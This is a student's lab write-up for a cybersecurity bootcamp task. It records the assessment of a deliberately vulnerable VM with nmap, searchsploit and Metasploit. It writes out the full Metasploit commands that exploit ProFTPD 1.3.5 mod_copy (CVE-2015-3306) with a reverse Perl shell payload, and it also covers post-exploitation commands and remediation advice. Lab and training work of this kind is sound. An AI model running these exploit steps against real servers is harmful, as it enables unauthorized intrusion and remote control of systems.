 # **Cyber-Security-Bootcamp-Mulearn-OWASP-Kerala**

**Task 5 – Vulnerability Assessment Report**

---

## **Challenge Information**

* **VM Setup**: Vulnerable VM imported in VirtualBox (Host-only Network)
* **Attacker Machine**: Kali Linux 2025.2

  * **IP**: `192.168.28.128`
* **Target Machine**: Challenge VM

  * **IP**: `192.168.28.129`
* **Tools Used**:

  * Nmap (7.95)
  * Metasploit Framework (msf6)
  * smbclient
  * curl / gobuster
  * Manual enumeration

---

## **1. Enumeration**

### **1.1 Nmap Service Scan**

Command:

```bash
nmap -sC -sV -O 192.168.28.129 -oN nmap_initial.txt
```

**Findings:**

```
21/tcp   open   ftp         ProFTPD 1.3.5
22/tcp   open   ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13
80/tcp   open   http        Apache httpd 2.4.7
445/tcp  open   netbios-ssn Samba smbd 4.3.11-Ubuntu
631/tcp  open   ipp         CUPS 1.7
3306/tcp open   mysql       MySQL (unauthorized)
8080/tcp open   http        Jetty 8.1.7.v20120910
```

![Screenshot – nmap](./screenshots/nmap.png)

---

### **1.2 Service Notes**

* **FTP (ProFTPD 1.3.5)** – Vulnerable to `mod_copy` Remote Command Execution (CVE-2015-3306).
* **HTTP (Apache 2.4.7)** – Directory listing enabled, accessible folders: `chat/`, `drupal/`, `payroll_app.php`, `phpmyadmin/`.
* **Samba (4.3.11)** – Message signing disabled → MITM risk.
* **CUPS (1.7)** – PUT method allowed, potential file upload vector.
* **MySQL** – Open to external connections, requires credentials.
* **Jetty (8.1.7)** – Outdated Java web server, possible RCE exploits.

**Screenshot:** Browsing `http://192.168.28.129/` reveals visible directories.
![Screenshot – browsing](./screenshots/8080port.png)

---

## **2. Exploitation**

### **2.1 Exploit Research**

Searched for ProFTPD exploits:

```bash
searchsploit ProFTPD 1.3.5
```

Found: **ProFTPD 1.3.5 - 'mod\_copy' Remote Command Execution (Metasploit)**

![Screenshot – Searchsploit](./screenshots/Searchsploit.png)

---

### **2.2 Gaining Access (Metasploit)**

Steps:

```bash
msfconsole
search ProFTPD 1.3.5
use exploit/unix/ftp/proftpd_modcopy_exec
set RHOST 192.168.28.129
set SITEPATH /var/www/html
set payload cmd/unix/reverse_perl
exploit
```

**Result:** Reverse shell opened as `www-data`.

![Screenshot – session](./screenshots/session.png)

---

### **2.3 Post-Exploitation Enumeration**

Commands executed inside the shell:

```bash
whoami
uname -a
ls /var/www/html
```

**Findings:**

* User: `www-data`
* Directories: `chat/`, `drupal/`, `payroll_app.php`, `phpmyadmin/`, uploaded `shell`

![Screenshot – command](./screenshots/command.png)

No privilege escalation attempted in this phase, but multiple vectors exist (old kernel, Samba misconfig).

---

## **3. Vulnerability Explanation – ProFTPD mod\_copy**

The **mod\_copy** module allows use of `SITE CPFR` (copy from) and `SITE CPTO` (copy to) commands for file operations. In ProFTPD 1.3.5, access control was improperly enforced:

* Attackers can copy arbitrary files without authentication.
* Malicious payloads can be uploaded into web directories.
* This leads directly to **Remote Command Execution (RCE)**.

**Exploit Path in This Case:**

1. Malicious payload copied to `/var/www/html`.
2. Triggered via HTTP request.
3. Attacker obtained a remote shell.

---

## **4. Additional Findings**

* **Apache Directory Listing**: Exposes sensitive files.
* **Samba**: Message signing disabled → vulnerable to network-level attacks.
* **CUPS (631)**: Risky HTTP methods (`PUT`) allowed.
* **Jetty 8.1.7**: Outdated, several RCE CVEs.

---

## **5. Recommendations**

* **ProFTPD**: Upgrade to >1.3.5a or disable `mod_copy`.
* **Apache**: Disable directory listing in config.
* **Samba**: Enable signing, restrict to trusted hosts.
* **CUPS**: Limit to localhost; restrict HTTP methods.
* **MySQL**: Restrict remote access; enforce strong credentials.
* **Jetty**: Patch or replace with a supported version.
* **General**: Apply regular patching, hardening, and segmentation.

---

## **6. Risk Assessment Table (CVSS with Color Indicators)**

| Service / Component | Vulnerability                      | CVE           | Risk        | CVSS (v3.1) Score |
| ------------------- | ---------------------------------- | ------------- | ----------- | ----------------- |
| ProFTPD 1.3.5       | mod\_copy Remote Command Execution | CVE-2015-3306 | 🟥 Critical | 9.8 (CRITICAL)    |
| Apache 2.4.7        | Directory Listing Enabled          | N/A           | 🟨 Medium   | 5.3 (MEDIUM)      |
| Samba 4.3.11        | Message Signing Disabled           | N/A           | 🟧 High     | 7.4 (HIGH)        |
| CUPS 1.7            | PUT Method Allowed                 | N/A           | 🟨 Medium   | 6.0 (MEDIUM)      |
| MySQL               | Remote Access Exposed              | N/A           | 🟧 High     | 7.5 (HIGH)        |
| Jetty 8.1.7         | Outdated Version with Known RCEs   | Multiple CVEs | 🟧 High     | 8.1 (HIGH)        |

---

## **7. Conclusion**

The target VM was compromised via a **known RCE in ProFTPD 1.3.5 (mod\_copy)**, leading to shell access. Additional misconfigurations further highlighted weak security practices. With layered hardening and regular patching, the system can be secured against similar threats.

---

## **8. References**

* CVE-2015-3306: [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-3306](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-3306)
* Nmap Documentation: [https://nmap.org/book/](https://nmap.org/book/)
* Metasploit Unleashed: [https://www.offsec.com/metasploit-unleashed/](https://www.offsec.com/metasploit-unleashed/)
* Apache Hardening Guide: [https://httpd.apache.org/docs/2.4/misc/security\_tips.html](https://httpd.apache.org/docs/2.4/misc/security_tips.html)
* Samba Security Best Practices: [https://wiki.samba.org/index.php/Samba\_Security](https://wiki.samba.org/index.php/Samba_Security)
* Jetty Vulnerabilities Archive: [https://www.eclipse.org/jetty/security-reports.html](https://www.eclipse.org/jetty/security-reports.html)

---

**Prepared By:** *Yedhukrishna*
**Date:** Aug 16, 2025
**For:** Cybersecurity Bootcamp – Task 5

